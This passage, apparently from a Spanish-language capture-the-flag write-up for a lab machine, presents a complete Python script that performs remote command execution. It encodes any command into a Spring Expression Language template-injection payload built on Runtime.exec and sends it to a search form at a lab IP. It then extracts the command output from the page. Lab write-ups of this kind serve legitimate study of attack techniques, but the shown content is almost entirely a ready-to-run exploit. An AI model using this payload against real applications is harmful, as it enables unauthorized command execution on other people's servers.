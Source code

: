 ### Script for RCE

Sabiendo que esto ejecuta comandos, podemos automatizar un script que nos permita un `RCE` de manera sencilla:

```python wrap=false intitle='Créditos a S4vitar, el rey del hacking'
#!/usr/bin/python3

import requests, sys, pdb, signal, os, time

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl + C
signal.signal(signal.SIGINT, def_handler)

if len(sys.argv) < 2:
    print("\n[!] El programa ha sido ejecutado incorrectamente\n")
    print('[+] Uso: python3 %s "whoami"' % sys.argv[0])
    sys.exit(1)

def makePayload():

    command = sys.argv[1]

    payload = "*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)" % ord(command[0])

    command = command[1:]

    for character in command:
    	payload += ".concat(T(java.lang.Character).toString(%s))" % ord(character)

    payload += ").getInputStream())}"

    return payload

def makeRequest(payload):

    search_url = "http://10.10.11.170:8080/search"

    post_data = {
        'name': payload
    }

    r = requests.post(search_url, data=post_data)

    f = open("output.txt", "w")
    f.write(r.text)
    f.close()

    os.system("cat output.txt | awk '/searched/,/<\\/h2>/' | sed 's/    <h2 class=\"searched\">You searched for: //' | sed 's/<\\/h2>//'")

if __name__ == '__main__':
    payload = makePayload()
    makeRequest(payload)
```
